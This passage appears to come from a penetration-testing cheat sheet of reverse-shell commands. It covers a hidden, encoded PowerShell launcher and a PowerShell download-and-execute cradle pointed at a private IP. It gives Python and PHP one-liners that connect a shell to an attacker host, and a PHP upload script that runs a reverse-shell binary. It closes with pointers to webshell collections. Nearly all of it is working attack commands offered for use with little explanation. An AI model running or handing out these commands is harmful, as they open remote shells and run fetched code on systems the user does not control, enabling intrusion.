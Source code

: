 str = "powershell.exe -nop -w hidden -e JABjAGwAaQBlAG4Ad..."

Or execute in memory

`powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass "IEX(New-Object Net.WebClient).downloadString('http://192.168.219.xxx/raw.ps1')"`

## Python

* Python3: 

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER-IP",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

and without subprocess

`python -c 'import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacking-ip",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.system("/bin/sh -i")'`

## PHP

```bash
php -r '$sock=fsockopen("ATTACKER-IP",ATTACKER-PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

* If possible to upload files, create reverse shell upload and start it using the script below

```php
<?php 

#shell_exec('wget http://192.168.119.207:4444');

echo "" .shell_exec('/tmp/rev.elf')."\n";

?>

# shell_exec can be replaced with other
eval
proc_open
exec
system
```


### PHP webshells

Nice collection here: https://github.com/JohnTroony/php-webshells

I TAKE ABSOLUTELY NO RESPONSIBILITY FOR ANY OF THOSE SHELLS. CHECK their CODE BEFORE USING!
THE ONLY SAFE SHELL is within kali linux webshells.

```
$ webshells
> webshells ~ Collection of webshells
/usr/share/webshells
├── asp
├── aspx
├── cfm
├── jsp
├── laudanum -> /usr/share/laudanum
├── perl
└── php

```
